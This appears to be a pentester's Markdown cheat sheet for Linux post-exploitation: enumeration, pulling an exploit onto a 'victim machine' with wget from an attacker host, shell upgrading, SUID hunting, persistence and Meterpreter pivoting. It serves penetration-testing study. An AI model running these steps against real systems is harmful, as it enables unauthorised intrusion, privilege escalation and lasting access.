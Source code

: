 # Linux Post Exploitation


## Enumeration

    uname -a
       
    ps -aux 
    
  - linpeas
    
    
  - [LinEnum](https://github.com/rebootuser/LinEnum)  
  
         <hostshare>/Tools/Exploit/Discovery
          
          
  - [Local Linux Enumeration](https://www.rebootuser.com/?p=1623)
  
  
  See what sudo commands you can run
  
       sudo -l

    
 
## Downloading files

    python -m SimpleHTTPServer  #Host the web server
      wget <IP>:8000/exploit     # Download to victim machine

    python -m pyftpdlib 21      #Host ftp server
      ftp <IP>
      
## Exploits

    searchsploit <linux kernel version>
   
    searchsploit <linux version>

## Upgrading basic shell to terminal 

    python -c 'import pty;pty.spawn("/bin/bash")';
    
    
## Privilege Escalation

[Privilege Escalation Cheatsheet ](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

Check /etc/passwd for user/ group ids

    0 is typically root ( this can be <= 500) 
    
    1000+ is where new user accounts start

 **Check for SUID (set owner userId upon execution)**
 
  [SUID](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/) gives temporary permissions to a user to run the program/file with the permission of the file owner (rather than the user who runs it). When looking at permissions the "x" for the owner will be an "s". [Past shells](https://github.com/Kahvi-0/Tools-and-Concepts/tree/master/Toolbox/Shells/SUID)
   
    find directory -user root -perm -4000 -exec ls -ldb {} \; 2>&1 | grep -v "Permission denied"


   
 
 ## Maintain persistence

  - Add user
  

  - Metasploit


  - Set a scheduled task
  
  
## Pivoting

 If pwnd target has a connection to a network that we do not have a connection to, we can set up a route on the machine to forward our traffic 
 
   - Meterpreter 
       
       Note that the routes created via meterpreter only aspply to that isntance of metasploit.
        If modules are crashing the shell when trying to scan via metasploit module, try running the scan from the compromised machine itself, then launcing targeted attacks from metasploit. 
   
         run autoroute -s <target network seen via enumeration>/CIDR
         
         run autoroute -p   #to confirm
         
       you can now test by pinging a device on the remote network
       
# Find more

  Metasploit
  
    /post/linux/


